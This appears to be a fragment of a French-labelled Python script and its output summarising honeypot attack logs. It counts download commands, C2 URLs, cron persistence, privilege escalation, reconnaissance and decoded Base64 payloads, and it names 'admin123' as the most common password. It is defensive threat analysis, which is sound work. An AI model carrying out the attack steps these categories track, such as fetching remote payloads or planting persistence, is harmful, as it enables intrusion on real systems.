print(f"   - wget/curl/ftp/tftp: {download_commands.height}")
print(f"   - URLs C2 distinctes: {urls.height}")

print(f"\n🔧 Persistence & Escalade:")
print(f"   - Cron: {cron_persistence.height}")
print(f"   - Modif. utilisateurs: {user_modification.height}")
print(f"   - Privilege escalation: {privilege_escalation.height}")
print(f"   - Modif. système: {system_modification.height}")
print(f"   - Reconnaissance: {recon_commands.height}")

print(f"\n🌐 Anomalies réseau:")
print(f"   - DNS spoofing/fronting: {len(dns_anomalies)}")
print(f"   - Payloads HTTP suspects: {len(payloads)}")

print(f"\n🔓 Base64 décodés:")
print(f"   - Payloads décodés: {len(decoded)}")

print("\n" + "=" * 60)


   - Le plus utilisé: admin123 (8143 occurrences)

📡 Commandes de téléchargement:
   - wget/curl/ftp/tftp: 133
   - URLs C2 distinctes: 19

🔧 Persistence & Escalade:
   - Cron: 59
   - Modif. utilisateurs: 117
   - Privilege escalation: 666
   - Modif. système: 529
   - Reconnaissance: 3693

🌐 Anomalies réseau:
   - DNS spoofing/fronting: 0
   - Payloads HTTP suspects: 8

🔓 Base64 décodés:
   - Payloads décodés: 529

